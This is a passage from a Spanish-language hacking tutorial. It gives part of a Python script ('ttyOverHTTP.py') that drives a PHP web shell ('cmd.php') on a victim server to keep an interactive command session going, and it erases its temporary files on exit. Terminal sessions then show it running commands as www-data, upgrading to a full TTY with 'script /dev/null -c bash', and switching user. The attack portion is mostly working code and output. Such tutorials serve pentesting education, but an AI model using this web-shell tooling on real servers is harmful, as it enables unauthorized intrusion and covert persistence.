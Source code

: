 ```python
SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

* **Importante**: En este caso estamos tirando contra la `127.0.0.1` suponiendo que el fichero se llama `cmd.php`, en vuestro caso lo tendréis que cambiar a lo que os toque.

Entonces bien, imaginad que ya tenéis un archivo `cmd.php` alojado en el servidor víctima, pues mirad que sencillo:

```go
┌─[s4vitar@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami
www-data
> pwd
/var/www/html
> cd /home
> pwd
/home
> ls -l
total 0
drwxr-xr-x 1 s4vitar s4vitar 1156 Feb  4 12:19 s4vitar
```

Ya directamente se gestiona desde el script la sesión, pudiendo así ver los outputs de los comandos que especifiquemos desde `input`. 

El procedimiento ahora para obtener una TTY y proseguir naturalmente sería el mismo que os mostré anteriormente:

```go
┌─[s4vitar@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami                  
www-data
> script /dev/null -c bash
Script started, file is /dev/null
www-data@parrot:/var/www/html$
> su s4vitar
su s4vitar
Password:
> ************* # Aquí va vuestra contraseña

░▒▓    /var/w/html  ✔ ▓▒░                                                  
> bash
bash
┌──[s4vitar@parrot]─[/var/www/html]
└──╼ $
> whoami
```